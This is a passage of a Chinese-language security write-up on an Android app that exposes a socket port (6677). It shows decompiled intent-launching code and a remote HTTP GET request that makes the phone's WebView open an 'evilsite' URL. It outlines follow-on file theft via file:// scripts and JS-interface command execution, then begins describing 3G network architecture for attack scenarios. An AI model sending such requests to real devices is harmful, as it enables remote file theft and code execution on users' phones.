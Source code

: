 并以隐式intent的形式启动注册这种uri scheme的activiy。

进一步搜索发现如下代码：

```
Uri v0_2 = Uri.parse("androidamap://openFeature?featureName=OpenURL&sourceApplication=banner&urlType=0&contentType=autonavi&url="
                             + this.a.m.privilegeLink);
    Intent v1 = new Intent(MovieDetailHeaderView.c(this.a).getApplicationContext(), 
                            NewMapActivity.class);
    v1.setData(v0_2);
    v1.setFlags(268435456);
    MovieDetailHeaderView.c(this.a).startActivity(v1);

```

表明可以通过远程HTTP GET请求如下地址

```
http://ip:6677/androidamap?action=openFeature&featureName=OpenURL&sourceApplication=banner&urlType=0&contentType=autonavi&url=evilsite

```

操纵安装该app的手机继承WebView的Activity访问evilsite，而且这里存在WebView的漏洞，利用方式包括

(1). 窃取私有目录下的敏感文件：远程攻击者或者本地恶意app可以令WebView加载file://域的恶意脚本文件，按照恶意脚本的请求，窃取该应用私有目录下的敏感文件，突破android沙箱限制；

(2). WebView远程命令执行：存在可被网页中js操纵的接口jsinterface。由于该流行应用针对的SDK版本较低（`android:minSdkVersion="8"`），在Android 4.4.2以下的手机，均可使用该接口，通过js注入该应用进程执行命令。

0x03 漏洞利用场景
===========

* * *

对于Android app开放socket端口漏洞的远程利用场景，一般认为Android客户端都在内网，其利用主要还是在非安全的公共WiFi环境，通过对漏洞特征扫描即可利用。但在传统认为安全的移动互联网环境，笔者发现仍然可以扫描到其他开放端口的终端，因此也可以利用这种漏洞。

叙述之前，我们先对典型的移动通信网络架构进行简单的科普，一般教科书上的3G网络架构（WCDMA）如图。

![enter image description here](http://drops.javaweb.org/uploads/images/28888e3b0d5ab94e30e557f2a5d79315b9e9a441.jpg)

包括以下组成部分：

1.  UE: 用户终端设备，就是手机，为用户提供电路域和分组域内的各种业务功能。
    
2.  UTRAN: 陆地无线接入网，分为基站（Node B）和无线网络控制器（RNC）两部分。
    
3.  CN: 核心网络，负责与其他网络的连接和对UE 的通信和管理。主要功能实体包括：
    
    (1) MSC/VLR：提供CS(电路交换)域的呼叫控制、移动性管理、鉴权和加密等功能；
    
    (2) GMSC：网关移动交换中心，充当移动网和固定网之间的移动关口局，承担路由分析、网间接续、网间结算等重要功能；
    
    (3) SGSN：GPRS服务支持节点，提供PS（分组交换）域的路由转发、移动性管理、会话管理、鉴权和加密等功能；
    
    (4) GGSN：网关GPRS支持节点，提供数据包在WCDMA 移动网和外部数据网之间的路由和封装，GGSN就好象是可寻址WCDMA移动网络中所有用户IP 的路由器，需要同外部网络交换路由信息。
    
    (5) HLR：归属位置寄存器，提供用户的签约信息存放、新业务支持、增强的鉴权等功能。
    